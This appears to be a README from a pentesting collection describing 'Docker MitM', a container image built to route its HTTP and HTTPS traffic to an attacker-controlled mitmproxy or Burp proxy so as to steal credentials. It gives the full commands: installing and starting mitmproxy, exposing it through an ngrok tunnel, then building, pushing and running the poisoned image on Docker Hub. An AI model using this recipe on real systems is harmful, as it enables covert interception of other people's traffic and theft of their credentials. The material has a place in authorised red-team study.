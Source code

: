 # Docker MitM

This is a container prepared with env variables to **proxy HTTP traffic from the container to your burp proxy** to steal the communication occurring inside of it (potentially credentials).

This is useful in environments where:

1. You can configure the Docker image to use
2. Some interesting connections are created from the container and you want to check them

This Docker image is public in **docker.io/carlospolop/docker-mitm:v6** (This would be useless for you as your proxy ad cert will be different).

### Start MitM proxy

```bash
# Install proxy
pip3 install mitmproxy

# Get CA certificate
cat ~/.mitmproxy/mitmproxy-ca-cert.pem

# Start listening
mitmproxy --listen-port 8000 --set block_global=false [--allow-hosts "github.com"] [--ignore-hosts "169.254.169.254|169.254.170.2|amazonaws.com"]
```

### Create Docker image

**REMEMBER TO SET THE MITMPROXY CERTIFICATE & CHANGE THE VALUES OF `https_proxy` and `http_proxy` in the `Dockerfile` with the hostname and port where the proxy will be listening**

**Important**: It's possible that the binary you are doing a MitM has certificate pinning. This will probably break the binary and won't allow you to continue capturing other requests. In that case use the params `--allow-hosts` (if you know which host you want to attack) or `--ignore-hosts` to ignore the one giving problems.

**Important2**: If are using this in cloud, it might be possible that HTTP requests are being done to the metadata service. In that case you potentially DON'T want to set the `http_proxy` environment variable, to avoid doing a MitM to those requests (or maybe you could just use `--ignore-hosts`).



```bash
# Get ngrok address
ngrok tcp 4444 #You could use this adderss as proxy in the env variables

# Build (for change your dockerhub username)
docker build -t docker-mitm .
docker tag docker-mitm carlospolop/docker-mitm:v5
docker push carlospolop/docker-mitm:v5

# Just running apt-get update you should start capturing traffic
docker run -it docker-mitm apt-get update
# Or accessing github.com via https
docker run -it docker-mitm curl https://github.com

# Upload to docker hub 
docker login
docker tag docker-mitm carlospolop/docker-mitm:vX # Change X
docker push carlospolop/docker-mitm:vX # Change X
```
